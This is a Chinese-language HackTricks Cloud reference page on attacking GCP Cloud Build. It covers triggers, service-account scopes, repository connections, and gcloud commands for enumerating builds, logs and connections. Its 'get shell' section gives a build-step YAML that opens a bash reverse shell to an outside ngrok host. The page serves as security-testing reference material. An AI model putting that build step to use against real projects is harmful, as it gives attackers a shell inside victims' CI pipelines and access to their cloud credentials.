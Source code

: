 # GCP - Cloud Build 枚举

<details>

<summary><strong>从零到英雄学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，**自动化软件构建**和发布流程，与**源代码仓库**集成，并支持广泛的编程语言。它**允许开发人员自动构建、测试和部署代码**，同时提供自定义构建步骤和工作流程的灵活性。

每个Cloud Build触发器都**与Cloud仓库相关联或直接与外部仓库连接**（Github、Bitbucket和Gitlab）。

{% hint style="success" %}
我没有看到任何方法可以从这里或Cloud仓库窃取Github/Bitbucket令牌，因为当下载仓库时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，客户端不会访问Github。
{% endhint %}

### 事件

Cloud Build可以在以下情况下触发：

* **推送到分支**：指定分支
* **推送新标签**：指定标签
* **拉取请求**：指定接收PR的分支
* **手动调用**
* **Pub/Sub消息**：指定主题
* **Webhook事件**：将暴露一个HTTPS URL，请求必须使用密钥进行认证

### 执行

有3个选项：

* 一个yaml/json **指定要执行的命令**。通常是：`/cloudbuild.yaml`
* 只有一个可以在网络控制台和cli中“内联”指定
* 最常见的选项
* 对于未经认证的访问很重要
* 一个**Dockerfile**来构建
* 一个**Buildpack**来构建

### SA权限

**服务帐户具有`cloud-platform`范围**，因此可以**使用所有权限**。如果**没有指定SA**（如在提交时），将使用**默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不赋予任何权限，但赋予权限相当容易：

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### 审批

可以配置Cloud Build以**要求对构建执行进行审批**（默认禁用）。

### 连接和仓库

连接可以通过以下方式创建：

* **GitHub**：它将显示一个OAuth提示，要求权限以**获取Github令牌**，该令牌将存储在**Secret Manager**内。
* **GitHub Enterprise**：它将要求安装**GithubApp**。将在您的GitHub Enterprise主机上创建一个**认证令牌**，并将其作为**Secret Manager**的秘密存储在此项目中。
* **GitLab / Enterprise**：您需要提供**API访问令牌和读取API访问令牌**，这些将存储在**Secret Manager**中。

一旦生成连接，您可以使用它来**链接Github帐户有权访问的仓库**。

此选项可通过以下按钮使用：

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
请注意，使用此方法连接的仓库**仅在使用第二代的触发器中可用**。
{% endhint %}

### 连接仓库

这与**`connection`**不同。这允许**不同**的方式获取**访问Github或Bitbucket**仓库的权限，但**不会生成连接对象，但它确实会生成一个仓库对象（第一代）。**

此选项可通过以下按钮使用：

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 存储

有时Cloud Build会**生成一个新的存储来存储触发器的文件**。例如，在GCP提供的示例中就会发生这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
存储桶名为[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)被创建用来存储`.tgz`文件。

### 获取shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 枚举

您可能会在构建配置和日志中发现**敏感信息**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 权限提升

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经认证的访问

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 后期利用

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击技巧！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>
